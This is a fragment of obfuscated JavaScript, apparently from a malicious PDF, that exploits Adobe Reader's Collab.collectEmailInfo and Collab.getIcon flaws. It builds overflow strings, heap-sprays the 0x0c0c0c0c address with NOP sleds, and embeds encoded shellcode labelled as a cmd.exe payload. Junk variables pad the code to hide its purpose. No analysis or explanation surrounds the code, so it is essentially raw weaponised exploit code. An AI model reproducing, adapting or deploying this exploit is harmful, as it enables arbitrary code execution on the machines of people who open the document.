 ```javascript
        }
        var bUpdate = new String(""); 
        var overflow = unescape("%u0c0c%u0c0c");
        var cP = function() {};
        this.gD = "";
        while (overflow.length < 44952) {
                this.tO = "";
                overflow += overflow; 
        }
        var adobeD = new String();
        this.collabStore = Collab.collectEmailInfo({
                subj: "",
                msg: overflow
        });
}
function updateE() {
        var xI = new String("");
        if (c.doc.Collab.getIcon) {   
                var arry = new Array();
				// cmd.exe payload
                var vvpethya = unescape("%ud3b8%u7458%ud901%u2bcb%ud9c9%u2474%ub1f4%u5a65%u4231%u0312%u1242%u3983%u96a4%u56f4%u0d45%u9bbd%ud7af%ue7f8%u982e%u1dcf%u7aa8%ucad5%u92cf%uf3c1%u9d2f%u4766%ufb49%u941e%uc494%u8389%uacfe%u6ad8%udd95%u0935%uf3a2%u801c%ub2d9%u488c%u2678%u0b5c%udd62%u01f4%u5b82%u4792%u4b5e%u2d2e%ubc2a%uf9ff%ue4c1%u9b9a%u83f7%ucc69%u3938%u1fb1%u7e29%uc50b%ue214%u8248%udcd8%ub3b7%u890b%ue425%uab91%u5210%u5192%uc8fc%u9932%u9def%ubaa1%u0795%u1c9f%uacee%uc5ba%u4b1c%uaf20%u0832%u3e47%u9129%uacf0%ude04%u1062%ue9e7%u0804%uf391%ubf69%ucc69%u71f0%u1108%uccee%u0d20%ubecf%ub462%ud949%u9971%u15e3%u3c5a%ub053%u5d89%u6c82%u6648%u07ae%u7ad2%u148a%ub09d%u1572%u1aab%u33e6%u5a91%ub8af%u4744%udd4a%u8b98%u47f2%u2af0%ub1cc%u03cf%u2707%ufe1e%ued8a%uca57%u23cd%u030e%u7277%u39bc%ubf21%u6423%udf3e%u5d93%uea71%u2a42%u2b4d%ud7b8%u0626%u7de4%ue9b8%ue771%uc85c%u0a82%u1f69%u2e8c%u1db2%u258c%u34bf%u2085%u359e%u98b7%u2cff%ue0a5%u6cf4%uf3c6%u7409%uf5ca%u6919%u60cd%u9a13%u4e19%ua74d%uf71c%ub952%uea11%ucba6%u0839%ud1c0%u2527%ud2c7%u10a5%ud8d8%u62bd%ufff2%u0b9a%uebe9%udfee%u1c04%ud389%u3622%u1d77%u4e5a%u177d%u4c5b%u21b3%u5f43%u31b9%u39a4%ubd2a%u4a21%u1291%uc8e5%u0389%u229e%ub43a%u5e0e%u24c3%ud4aa%ud71d%u7246%u4a4c%u53de%ufbf6%uc952%u7098%u72fa%u153a%u1594%ub5a8%ub801%u2057%u29e5%uc6f9%ud08e%u738b%u275f%u1e42%u22e7%u411a");
				var updateX = 39796;  
                var hWq500CN = vvpethya.length * 2;
                var len = 0x400000 - (hWq500CN + 0x38);
                var zAdobe = "";
                var yarsp = unescape("%u9090%u9090");
                var dU = "";
                yarsp = s(yarsp, len);
                this.zAdobeK = "";
                var p5AjK65f = (0x0c0c0c0c - 0x400000) / 0x400000;
                var aG = new Date();  
                for (var vqcQD96y = 0; vqcQD96y < p5AjK65f; vqcQD96y++) {
                        var lBasic = "";
                        arry[vqcQD96y] = yarsp + vvpethya;
                        var u = "";   
                }
                var iAlpha = function() {};
                var tUMhNbGw = unescape("%09");
                while (tUMhNbGw.length < 0x4000) {
                        this.gN = false;
                        tUMhNbGw += tUMhNbGw;
                }
                var hV = new String("");
                var nVE = function() {};
                tUMhNbGw = "N." + tUMhNbGw;
                c.doc.Collab.getIcon(tUMhNbGw);
        }
        this.wZ = 44811;
}
var hO = new String("");
```